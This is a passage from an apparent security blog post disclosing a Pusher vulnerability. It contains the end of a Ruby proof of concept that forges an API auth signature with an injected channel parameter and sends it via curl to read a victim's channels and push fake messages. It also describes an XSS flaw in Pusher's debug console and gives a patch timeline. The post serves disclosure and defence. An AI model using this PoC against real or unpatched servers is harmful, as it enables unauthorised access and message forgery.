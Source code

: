 
# We only need last part of auth token
sign = token[:auth].split(':')[1] 
x=<<CURL
curl "https://api.pusherapp.com#{path}?body_md5=#{md5}&auth_version=1.0&auth_key=#{auth_key}&auth_timestamp=#{stamp}&auth_signature=#{sign}&dummy=:#{dummy_channel}" -H 'Content-Type: application/json' -d '#{body}' 
CURL
system(x)
{%endhighlight%}

Using this PoC we can get a list of public/private channels of the victim and send any fake data to those channels. <a href="https://pusher.com/docs/rest_api#method-get-channel">See REST documentation for other endpoints.</a>

## Getting XSS on pusher.com using... Pusher

This one is just for fun.

Thinking of what harm can be done with malicious fake messages beyond phishing, I tried to find some Universal XSS and thoroughly reviewed pusher.js, but discovered nothing like that. However, there's special Console for debugging on pusher.com which doesn't sanitize `log.type` before inserting in HTML.

![](https://sakurity.com/img/pusher.png)

### Timeline:

May 8 - the bug was reported to Pusher

May 14 - they fixed SDK libraries and server side was patched to block forged signatures.

If you're using standalone product like <a href="https://github.com/stevegraham/slanger">slanger</a> (open source implementation of pusher) - update SDK/slanger/both asap.

Previous posts about format injections: <a href="https://sakurity.com/blog/2015/03/03/duo_format_injection.html">Format Injection Vulnerability in Duo Security Web SDK</a>, <a href="https://sakurity.com/blog/2015/03/15/authy_bypass.html">How "../sms" could bypass Authy 2 Factor Authentication</a>